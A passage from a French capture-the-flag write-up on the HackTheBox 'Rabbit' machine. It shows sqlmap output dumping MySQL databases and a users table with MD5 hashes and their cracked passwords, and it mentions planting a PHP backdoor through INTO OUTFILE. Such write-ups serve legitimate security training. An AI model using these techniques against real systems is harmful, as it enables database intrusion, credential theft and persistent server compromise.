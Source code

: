 ```plain
available databases [7]:
[*] complain
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] secret
[*] sys
```

On ne trouve rien d'intéressant dans *complain* mais la base *secret* nous apporte des hashs supplémentaires (sqlmap a cassé certains des hashs, j'ai édité les autres trouvés via [CrackStation](https://crackstation.net/)) :  

```plain
Database: secret                                                                                                                                                                                                  
Table: users
[10 entries]
+----------+-----------------------------------------------------+
| Username | Password                                            |
+----------+-----------------------------------------------------+
| Zephon   | 13fa8abd10eed98d89fd6fc678afaf94                    |
| Kain     | 33903fbcc0b1046a09edfaa0a65e8f8c (doradaybendita)   |
| Dumah    | 33da7a40473c1637f1a2e142f4925194 (popcorn)          |
| Magnus   | 370fc3559c9f0bff80543f2e1151c537 (xNnWo6272k7x)     |
| Raziel   | 719da165a626b4cf23b626896c213b84 (kelseylovesbarry) |
| Moebius  | a6f30815a43f38ec6de95b9a9d74da37 (santiago)         |
| Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls)    |
| Turel    | d322dc36451587ea2994c84c9d9717a1                    |
| Dimitri  | d459f76a5eeeed0eca8ab4476c144ac4 (shaunamaloney)    |
| Malek    | dea56e47f1c62c30b83b70eb281a6c39 (barcelona)        |
+----------+-----------------------------------------------------+
```

A ce stade, vu qu'on dispose des droits les plus importants de MySQL et qu'en plus j'ai aussi trouvé le DocumentRoot via un message d'erreur, on serait tenter de poser une backdoor PHP sur le système avec INTO OUTFILE ([voir Tales of pentest #1](http://devloop.users.sourceforge.net/index.php?article128/tales-of-pentest-1-celui-qui-donnait-la-permission-file)).  

![HackTheBox Rabbit CTF php file disclosing path](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/rabbit_repo_error_path.jpg)
